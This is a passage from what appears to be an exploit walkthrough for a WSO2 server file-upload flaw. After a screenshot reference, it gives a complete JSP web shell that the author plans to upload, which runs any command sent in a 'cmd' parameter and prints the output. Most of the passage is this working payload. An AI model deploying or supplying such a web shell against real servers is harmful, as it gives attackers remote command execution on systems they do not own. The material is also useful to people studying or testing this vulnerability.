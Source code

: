 <img src="./assets/burp_repeater_dark.png" width=800 height=400>

As we said before, we can upload any file on the WSO2 server -- we want a file that can interpret commands: we will try to upload a web shell jsp file with the following content:

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```

